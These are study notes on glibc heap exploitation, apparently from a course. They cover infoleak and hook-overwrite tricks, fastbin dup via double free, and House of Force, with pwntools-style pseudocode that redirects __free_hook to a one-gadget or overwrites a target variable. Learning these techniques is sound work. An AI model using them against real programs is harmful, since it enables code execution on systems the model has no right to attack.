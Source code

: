 ### Table of Contents
1. Other Tactics
2. Double Free - Fastbin Dup
3. House of Force


--------------------------------------------------------------------------------------------------


**Debugging**
[Look at debugging notes]: binary/exploit_heap/notes/debugging.md


**RCE Points**
[Look at RCE Points notes]: binary/exploit_heap/notes/rce_points.md


**Tools / Commands / Playbook**
[Look at cmds/tools/playbook notes]: binary/exploit_heap/1_cmds_tools_playbook.md


**Heap Notes**
[Look at heap_notes]: binary/exploit_heap/notes/heap_note.md


--------------------------------------------------------------------------------------------------


# 1. OTHER TACTICS -------------------------------------------------------------------------------

**calloc() & the IS_MMAPPED flag; by Polly.**
```
Setting the IS_MMAPPED flag on a free chunk (e.g. via an overflow bug) results in that chunk's user data not getting zeroed when allocated via calloc(), since it assumes that memory allocated via mmap() is already zeroed. This is a great way to forge infoleaks when your target program uses calloc(). Polly demonstrated how this could be leveraged against the One-Byte challenge binary in HeapLAB Part 1 to leak a libc address in a more efficient way than in my suggested solution.
``` 


**fastbins size integrity check weakness; by Harsh Khuha.**
[Harsh's bug]: https://sourceware.org/bugzilla/show_bug.cgi?id=19449
[Angelboy original report]: https://sourceware.org/bugzilla/show_bug.cgi?id=19449
```UNPATCHED_ISSUE???
Harsh independently rediscovered a bug in the fastbins size integrity check code that was originally reported by House of Orange author Angelboy in 2016.

The code incorrectly casts the target chunk's size field on 64 bit systems, meaning the check isn't applied to the entire field. You can check out Harsh's bug report at the link above, and Angelboy's original report above. Despite both of these reports the check remains unpatched.
```


**malloc hook chaining; by Justin Lewis**
```
Justin pointed out that if you're able to overwrite the malloc hook via a fastbin dup,
    e.g. using the nearby 0x7f size field we discuss in Part 1
you're probably also able to overwrite the realloc hook, since it resides in the quadword immediately before the malloc hook.

Having pointed the realloc hook at a one-gadget, if you point the malloc hook at realloc() plus a certain amount, you can skip a number of 'push' instructions, resulting in a slightly different stack state when the realloc hook is called than you otherwise might have. 

This may allow you to adjust the stack into a more favorable configuration before executing a one-gadget. Justin used this technique to craft an alternative solution to the Poison Null Byte challenge from HeapLAB Part 2.
```

**try using GLIBC's wonderfully named strfry() function shown in the image below (yes that comment exists in the source):**
```
/* sautee STRING briskly. */
extern char *strfry (char*__string)
```


--------------------------------------------------------------------------------------------------


# 2. Double Free - Fastbin Dup --------------------------------------------------------------------

**Look at `DOUBLE FREE` IN `heap_flow.md` for visual detail**


+ If you **freed a pointer to a chun chunk twice** ...
 - ... the _address_ of that _chunk_ would be in the _fastbin's list_ twice
 
 - So in the _first reference,_ `write target address` in userdata
  * (the _1st quadword_ for heap's _userdata_ can ... 
  * ... be _interpreted_ as next _fastbin's address_)


+ Some glibc will prevent double free
 - **look at `heap_mitigations.md` for detail**
 
 - some `version of glibc` only checks the top of the fastbin
  * meaning the value in that _fastbin's slot_ in the arena
  * does it _only check the top of the bin?_


**Fastbins Notes**
+ Doesn't check if _flags are valid_
+ Doesn't check if _chunk is alligned_


**Using Fasbtbin Dup to Write To a Target**
  ```Pwntools_Python_PseudoCode
                  # ===== Example Variables ===== #
     
     #   Distance b/w Target (pointer, variable, etc.) and Start of FAKE CHUNK
     #
     distance_from_fake_chunk = <math calculating distance>
     
     #   target fastbin size
     #
     target_fastbin = <some number> # putting 0x78 targets 0x80 fastbin
     
     #   target address; for now it's `__free_hook`
     #     Reference `FREE HOOKS` in `heap_rce_pointers.md`
     #
     target_address = libc.sym.__free_hook
     
     #   This will point to:
     #    FAKE CHUNK that should have a suitable FAKE SIZE FIELD
     #
     address_to_fake_chunk = p64(target_address - distance_from_fake_chunk)
  
  
  
                        # ===== Setup ===== #
    
    
     #   `fastbin_malloc` is dummy `malloc` function for `target_fastbin`
     #
     chunkA = fastbin_malloc(target_fastbin, "garbage_data_A")
     chunkB = fastbin_malloc(target_fastbin, "garbage_data_B")
    
     #   Dummy free function used
     #
     free(chunkA) # free 1
     free(chunkB) # free 2
     free(chunkA) # free 3 - double free
     
  
  
                 # ===== Setting Up Overwrite ===== #
     
     #   free 1 - Into `chunkA` 
     #   This will put target address of target FAKE CHUNK into ...
     #   ... the forward pointer of `chunkA`
     #        (since first qword in userdata can be interpreted as an address)
     #
     fastbin_malloc(target_fastbin, address_to_fake_chunk)
  
     #   free2 - Into `chunkB`
     #
     fastbin_malloc(target_fastbin, "garbage_data_B")
     
     #   free3 - Into `chunkA`
     #   ALSO, the forward pointer in `chunkA` to `address_to_fake_chunk`...
     #   ... is at the head of the fastbin list
     #
     fastbin_malloc(target_fastbin, "garbage_data_A")
  
  
  
                        # ===== Overwrite ===== #
                        
     overwrite_info = <what_i_want>  # such as an address to a gadget
                                                      
     #   Now writing into FAKE CHUNK till actual target
     #
     fastbin_malloc(target_fastbin, 
                      <alignment_data_till_actual_target>
                          + overwrite_info)
                          
     #   If the taregt is `__free_hook`, maybe write an address to a gadget
     #     Reference the tool `one_gadget` in `1_cmds_tools_playbook.md`
     #     Reference `FREE HOOKS` in `heap_rce_pointers.md`
     #   TL;DR 
     #     If it's `__free_hook`s contents put an address that holds
     #     an address to a gadget because `__free_hook` is a pointer
     ```


--------------------------------------------------------------------------------------------------


# 3. HOUSE OF FORCE ------------------------------------------------------------------------------

1. Works on **GLIBC versions 2.28 and below**
  + _GLIBC 2.29_ introduced a top chunk size check that compares the size of a top chunk
     against a variable called `system_mem`, which


2. Requires knowledge of `distance b/w top_chunk and the target` _UNLESS_ the target is in the
   _same heap_ you're able to make arbitrarily large requests to malloc


3. If `top chunk's` _size_ is too big & _you request A LOT of memory..._
 + ... you could _wrap around VIRUTAL MEMORY space_ and ...
  - ... point to values in the `.data section`

 + Example really large size is: `0xffffffffffffffff` - 16 f's

 + Could overlap the larget chunk we'll be requesting w/ the target, BUT ...
  - ... BUT _you'd have to write A LOT of data_ to it
   * This'll cause a `SEGFAULT` (in attempt to write to read-only or unmapped memory)

 + Instead, calculate distance between top chunk and the target
   * _stop just short_ of target data...
   * then _request another small chunk_
  
 ```See->pwntools_solution-target.py - Reference original file to puy code in context
    def delta(x,y):
        return (0xffffffffffffffff - x) + y
        
    top_chunk_address = heap_address + offset
    target_address = elf.sym.target - offset_toStopJustShortOfTargetData
    
    distance = delta(top_chunk_address, target_address)
    
    # From custom malloc method in python
    malloc(distance, "Y") # distance is treated as a type of bin?
    
    # Overwrite target
    malloc(24, "Much win") # This new heap will be after the above `malloc`
 ```


--------------------------------------------------------------------------------------------------


